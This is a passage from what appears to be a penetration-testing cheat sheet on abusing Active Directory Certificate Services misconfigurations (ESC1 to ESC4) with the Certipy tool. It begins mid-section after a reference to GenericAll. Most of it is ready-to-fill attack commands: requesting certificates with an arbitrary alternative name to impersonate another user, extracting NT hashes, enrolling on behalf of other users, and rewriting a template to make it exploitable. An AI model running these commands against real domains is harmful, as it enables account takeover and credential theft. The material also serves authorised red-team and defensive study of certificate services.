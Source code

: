 The further course results depending on which object is contained in the OU - see GenericAll.

## Enroll (Certipy)

### ESC1

ESC1 allows Client Authentication and permits the enrollee to supply an arbitrary Subject Alternative Name (SAN) to a certficate.

```
$> certipy req '<domain>/<user>:<password>'@<certificateAuthorityRhost> -ca '<certificateAuthority>' -template 'ESC1' -alt '<targetUser>@<domain>'
```

Using the certificate the NT hash can be extracted:

```
$> certipy auth -pfx '<file>.pfx' -username '<user>' -domain '<domain>' -dc-ip <domainController>
```

### ESC2

ESC2 is when a certificate template can be used for any purpose (see ESC3 - use template = ESC2).

### ESC3

ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent).
This EKU can be used to request certificates on behalf of other users. 

Request Certificate Request Agent certificate:

```
$> certipy req '<domain>/<user>:<password>'@<certificateAuthorityRhost> -ca '<certificateAuthority>' -template '<ESC3>'
```

Use this certificate with -on-behalf-of parameter (must be in the form of domain\user, and not the FQDN of the domain)

```
$> certipy req '<domain>/<user>:<password>'@<certificateAuthorityRhost> -ca '<certificateAuthority>' -template 'User' -on-behalf-of '<domain>\<user>' -pfx '<file>.pfx'
```

### ESC4

ESC4 is when a user has write privileges over a certificate template.
Overwrite the template and make it vulnerable to ESC1:

```
$> certipy template '<domain>/<user>'@<certificateRhost> -hashes :<ntHash> -template 'ESC4' -save-old
```

Request a certificate:

```
$> certipy req '<domain>/<user>':'<password>'@<certificateAuthorityRhost> -ca '<certificateAuthority>' -template 'ESC4' -alt '<targetUser>@<domain>'
```

